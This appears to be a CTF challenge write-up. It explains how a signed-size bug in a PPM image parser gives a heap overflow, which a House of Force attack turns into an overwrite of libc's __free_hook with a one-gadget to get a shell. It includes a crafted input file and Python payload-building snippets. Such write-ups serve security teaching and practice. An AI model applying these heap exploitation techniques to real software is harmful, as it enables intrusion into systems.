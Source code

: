 # Description
ZanderDK once said "I wish we could use the big chungus here",
I still have no clue what he meant.

https://nextcloud.ntp-event.dk:8443/s/bWMq4Ri6DH2GexJ/download/Hobc.zip

`nc chungus.hkn 1024`

# Intended solution
The challenge consists of a single binary, it's source, and libc running on the remote server.

The binary is a janky P3 PPM image format reader.
PPM is an ascii format for images of the following form

```
P3
[sizex] [sizey]
[maxvalue]
[byte1] [byte2] ...
```

Reading the source for the parse one might notice the following statement:
```c
if (image->size > MAX_IMG_SIZE) {
        data = (char*)malloc(MAX_IMG_SIZE+1);
} else {
        data = (char*)malloc(image->size+1);
}
```
here image->size is a signed size. Meaning by suppliying a very large number, we can pass into the else branch with a very big image->size value.
We will then read in the image line by line into the `data` heap object.
By supplying `-1` as the image size, the expression at the malloc size argument will evaluate to 0, essentially allocating only 32 bytes but keeping the `image->size` very large.

This is one vulnerability of integer overflow, and signed comparison.
Next is the overflow that this allows the hacker to perform. Because the heap buffer is now 32 bytes big and the program will read up to `0xffffffffffffffff` bytes in, it will overflow into the top-chunk.

The HOF explains how by crafting a very large top chunk and controlling a later malloc'd size, we can make any subsequent malloc call return an arbitrary pointer.

Let us say we did the basic overflow and made the size of the top chunk `0xfffffffffffffff0` by sending a file such as this:
```
P3
2753074036095 6700417 // this = -1
0
255 255 255 255 255 255 255 255 255 255 255 255
100 100 100 100 100 100 200 200 200 200 200 200
240  255  255  255  255  255  255  255  20  20  20  20
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ This is the size field 
```
We now have a very big top chunk.
The next malloc in the program is here:
```
// Count the bytes
malloc(image->maxval);
```

And we want to allocate up until where we want to write, in my exploit i use the known __free_hook in libc. 
The size we want to pass as `maxval` is then 
```py
size = (free_hook-heap_base)-0x2c0
```
This address is easily bruteforcable when you understand the concept, the 0x2c0 constant i just found locally.

Now the next chunk that malloc will allocate will be at free_hook-8.

```c
char *y = (char*)malloc(255); // This returns __free_hook-8
for (int i = 0; i < image->size; i++) {
    y[data[i]]++;
}
for (int i = 0; i < 255; i++) {
    printf("%d:\t%d", i, y[i]);
}
```
Now it will count each byte in the image and insert into this address.
By eg. supplying `8 8 8` it would set the __free_hook lowest byte to 8.

We can calculate this type of payload simply like this
```
gadget = 0x4f302 # magic one gadget found from libc
gadgetfmt = ""
target = p64(libc_base + gadget)
for i in range(len(target)):
    gadgetfmt += f"{str(i+8)} " * target[i]
```

It will generate something like 
```
8 8 9 9 9 10 10 10 [...] 13 13 13 13 13 
```
Witch will set the address at __free_hook to the target value (in this case a one gadget).
When the final free is called, it will invoke the __free_hook and in this case drop us a shell.
The full POC is found in `solve.py`
It works 80% of the time.